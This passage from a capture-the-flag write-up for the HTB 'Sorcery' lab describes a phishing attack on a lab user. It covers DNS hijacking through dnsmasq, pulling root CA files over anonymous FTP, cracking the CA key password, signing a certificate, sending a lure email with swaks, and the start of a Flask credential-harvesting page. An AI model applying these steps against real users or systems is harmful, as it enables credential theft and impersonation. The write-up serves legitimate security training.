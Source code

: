 ### Blog
In this section, we can find two posts about phishing attacks targeting **tom_summers**, describing how he felt during the tests and listing some rules to avoid falling for such attacks again. The post mentioned three key elements: a subdomain under the `sorcery.htb` domain, an HTTPS server, and a certificate signed by the internal CA.

Let’s start by addressing the first requirement: the subdomain.

-   During enumeration of the container after obtaining a reverse shell, we found that the `dnsmasq` process is running under the context of the **user** account and is configured to read entries from two files: `/dns/hosts` (owned by root) and `/dns/hosts-user` (which does not exist).
    
-   First, we need to create the file `/dns/hosts-user` and write a rule that points a subdomain to our machine.
    
-   Since we control the `dnsmasq` process, we can kill and restart it, effectively applying our new DNS rules.
    
-   Finally, we can verify that the subdomain resolves to our host using:  
    `dig <subdomain>.sorcery.htb @127.0.0.1`
    
Now that the first requirement is met, we can move on to the remaining two: setting up an HTTPS server with a certificate signed by the root CA, which is "securely" stored on the FTP server.

While inspecting the docker compose configuration of the application, we discovered that the FTP service has anonymous login enabled. This allows us to connect without credentials and retrieve a copy of the root CA's `.crt` and `.key` files.
```
ftp anonymous@172.19.0.11
> cd pub
> mget *
```
> To access the FTP server, you should use a proxy tool. I recommend learning **ligolo-ng**, as it's one of the easiest to set up.

When attempting to generate a certificate, you'll be prompted for the root CA password. This can be brute-forced using a simple shell script or the [pemcrack](https://github.com/robertdaviraham/pemcrack) utility. Just clone the repository and compile it using **make**.

Once you’ve obtained the password, you can generate a signed certificate with the following commands:
```
❯ openssl genrsa -out server.key 2048
❯ openssl req -new -key server.key -out server.csr -subj "/C=US/ST=Something/L=Something/O=Something/CN=localhost"
❯ openssl x509 -req -in server.csr -CA RootCA.crt -CAkey RootCA.key -CAcreateserial -out server.crt -days 365 -sha256
```

Finally, you just need to send an email to the mail server targeting the user **tom_summers**:
```
swaks --to tom_summers@sorcery.htb --server 172.19.0.9:1025 --from me@sorcery.htb --header "Subject: review" --body "Hello world https://<subdomain>.sorcery.htb"
```
For the phishing page, you can either perform a MITM attack or simply serve a copy of a legitimate-looking website like Gitea. A quick and effective method is to right-click on the Gitea page, use "Save Page As…" to download it locally, and then serve it using flask:
```python
from flask import Flask, redirect, request, send_from_directory, url_for
app = Flask(__name__)
@app.route("/")
def serve_index():
    return send_from_directory(".", "index.html")
@app.route("/index_files/<path:filename>")
def serve_static_files(filename):
    return send_from_directory("index_files", filename)
@app.route("/user/login", methods=["POST"])
def login():
    user_name = request.form.get("user_name") or request.json.get("user_name")
```